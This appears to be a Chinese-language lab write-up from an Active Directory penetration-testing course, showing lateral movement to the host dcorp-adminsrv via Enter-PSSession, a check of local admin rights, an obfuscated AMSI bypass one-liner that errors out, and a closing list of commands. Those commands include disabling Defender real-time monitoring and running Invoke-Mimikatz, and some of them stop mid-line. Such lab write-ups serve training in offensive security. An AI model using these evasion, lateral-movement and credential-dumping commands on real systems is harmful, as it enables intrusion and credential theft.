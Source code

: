 ```

下面两个命令都可以横向移动到dcorp-adminsrv
```Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local```
或者
```Enter-PSSession  dcorp-adminsrv.dollarcorp.moneycorp.local```

可以看到当前账号dcorp\student366属于本地管理员（BUILTIN\Administrators）
```
PS C:\ad> Enter-PSSession  dcorp-adminsrv.dollarcorp.moneycorp.local
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> whoami /all

USER INFORMATION
----------------

User Name        SID
================ ==============================================
dcorp\student366 S-1-5-21-1874506631-3219952063-538504511-45144


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                     Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-1874506631-3219952063-538504511-1116 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```


可以绕过powershell执行策略，但是没有办法绕过AMSI,产生了报错
```
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> powershell -ep bypass
Windows PowerShell
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\student366\Documents>
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`B
L(('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(("{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syt'+'em') ) )."g`etf`iElD
"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"({n`ULl},${t`RuE} )
Get-varIABL : The term 'Get-varIABL' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included,
verify that the path is correct and try again.
At line:1 char:98
+ ... 'uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BL(('1Q'+' ...
+                                                     ~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Get-varIABL:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

不能在当前靶机引入任何powershell脚本，（既不能下载到本地，也不能在内存中引入）因为在dcorp-adminsrv这台机器有 Applocker策略
```

[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> ipconfig
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Users\student366\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> ls
[dcorp-adminsrv.dollarcorp.moneycorp.local]: PS C:\Program Files> .\Invoke-Mimikatz2.ps1
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> hostname
[dcorp-dc]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ([TYpE]( "{1}{0}"-F'F','r
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + (
[dcorp-dc.dollarcorp.moneycorp.local]: PS C:\Users\svcadmin\Documents> New-ItemProperty "HKLM:\System\CurrentControlSet\